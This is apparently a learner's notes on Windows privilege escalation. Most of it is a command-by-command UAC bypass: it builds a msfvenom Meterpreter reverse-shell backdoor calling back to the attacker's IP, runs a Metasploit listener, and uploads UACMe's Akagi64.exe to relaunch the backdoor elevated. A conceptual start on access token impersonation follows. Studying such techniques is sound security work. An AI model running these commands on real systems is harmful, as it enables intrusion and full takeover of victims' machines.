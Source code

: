       
    
      
    
    - ==**_Bypassing UAC With UACMe_**==
    
    > UAC (User Account Control ) ⇒ do u know the tab that pop up when u change somting in app , that pop up like this , do u want to make this app or allow this app to make change on your system v, that is
    
    > is used to ensure that the changes is done by the admin or user owner , and approved of it
    
    > to bypass the usc , u will need to have access to a user account that is part of the local administrators group to windows target system , because if u are not part , that will pop up a box like the UAC but now it’s ask for admin password
    
      
    
    - ==Bypass the UAC==
        
        1. ==_now after we find a way to rce on the target system like the previuse ways of rce_==
        2. now we need to identify the version of windows that we are targeted ⇒ `sysinfo`
        3. then we should see if we part of local administrators group by ⇒ `getuid` & `getprivs` && `shell` ⇒ `net localgroup administrators`
        
        > now if we want to change the password of a user we will see access ids denied , because we should click on the accept on the UAC , but we are now in command promet so we can’t
        
        1. now clone the UACME repo that contain a lot of method of bypassing the UAC
        2. ok now we want to make a msfvenom ⇒ `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<our ip> LPORT=1234 -f exe > backdoor.exe`
        3. now listner of the payload ⇒ `msfconsle` && `use multi/handler` && `set payload windows/meterpreter/reverse_tcp` && `set lhost <our ip>` && `set lport 1234` && `run`
        4. now in the meterpreter session ⇒ `cd c:\\` && `mkdir temp` && `upload backdoor.exe` && `upload /root/desktop/tools/UACME/Akagi64.exe`
        
        > now we upload the akagi64.exe on the target system and now we will use it to bypass the UAC
        
        8 . `./akagi64.exe <key ( see the repo to select a key) 23 > c:\\temp\backdoor.exe`
        
        1. ==_now if we back to msfcosle we will see the session closed and the new one opend so , now if we type getpriv we will see alot of that and now we bypass the UAC ⇒_== `==migrate <number of proccess that need authourity pricv==`
        
          
        
    
      
    
      
    
    - ==**_Access Token Impersonation_**==
    
    > **Access Token Impersonation** are the core element of the authentacation proccess of windows and are created and managed by the local security authority subsystem service (LSASS) .
    
    > is responseabil for identifying and discribing the security context of a process of thread running on a system
    
    > ==_it’s like a cookies on web , like a key , we use it when we want to access something without the needed of providing the password each time ._==
    
    > ==_**when we want to access or login in user the winlogin.exe promet to us and need us to provide the username and the password , so when we enter it and login we will see the winlogin.exe generate a access token , now this token is attached to the userinit.exe proccess after the child process create by the user , it copy this token and init it in the subprocess , so u dose not needed to provide a login crad every time u want to start a process**_==
    